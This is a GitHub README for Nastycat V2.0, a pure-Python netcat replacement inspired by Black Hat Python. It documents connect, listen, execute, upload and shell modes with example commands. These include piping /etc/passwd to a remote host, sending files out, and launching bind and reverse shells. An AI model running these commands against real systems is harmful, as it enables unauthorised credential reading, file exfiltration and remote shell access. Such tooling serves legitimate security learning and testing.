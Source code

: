 # Nastycat V2.0

Nastycat is a tool completely made using python for replacing NetCat utility. The first version uses the pwntools framework which is not natively installed with installation of python. But this 2.0 version does not use any libraries that are not preinstalled with python. This allows it to be useful in many situation where the first version would not. Moreover it offers better features than that previous one.

CREDIT - The concept of this tool is from Black Hat Python by Justin Seitz.

## Features

It is very likely to original NetCat.
- It can connect to a server and deliver data on both sides.
- It can also listen for connections on a specific port.

A great feature includes execute mode.
- When specified with listening mode, it executes specified command on local system and starts a server. When someone connects to it, delivers the output.
- Else it will execute the command and send output to the server.

Also includes an upload mode.
- When in listening mode, receives the client output and saves it to the specified file.
- When connected to a server, sends the contents of the specified file to the server.

Now a shell mode is included.
- When enabled with listening mode, activates a server, when a client connects, provides the client access to the server machine's terminal. When client disconnects, repeats the same until it is manually killed.
- When enabled in client mode, invokes an actual reverse shell payload to be sent to the server which allows the server to access the client's terminal.
Note - This is now only supported in linux or linux based operating systems. It does not works as it is supposed to in windows systems.

## Examples

```bash
python3 ./nastycat_v2.py 192.168.3.41 -p 4444 # connect to server at port 4444
```
```bash
python3 ./nastycat_v2.py -l # listens on default port 4444
```
```bash
python3 ./nastycat_v2.py -lp 5555 # listens on port 5555
```
```bash
python3 ./nastycat_v2.py -e "cat /etc/passwd" 192.168.3.41 -p 8080 # sends the output to port 8080
```
```bash
python3 ./nastycat_v2.py -le "cat /etc/passwd" # listens on port 4444 and sends the output when client connects
```
```bash
python3 ./nastycat_v2.py -lu test.txt # receive client data and save it to specified file.
```
```bash
python3 ./nastycat_v2.py -u file.txt 192.168.3.41 -p 8080 # read the file contents and send it to the server.
```
```bash
echo -ne "GET / HTTP/1.1\r\nHost: www.google.com\r\n\r\n" | python3 ./nastycat_v2.py google.com 80 # same old school method of invoking web requests.
```
```bash
python3 ./nastycat_v2.py -s 192.168.3.41 -p 5555 # sends an actual reverse shell payload to the server. Note - do not works in windows.
```
```bash
python3 ./nastycat_v2.py -ls # starts a server, when a client connects, gets access to the servers terminal.
```

## Setup

Run the setup file and it will automatically setup everything.

Note - This may require root priviledges.

## Contribution
Any body can voluntarily contribute to this project if he/she has a better idea.
If so, please contact me on my [Insta Handle](https://www.instagram.com/sayanray385/).

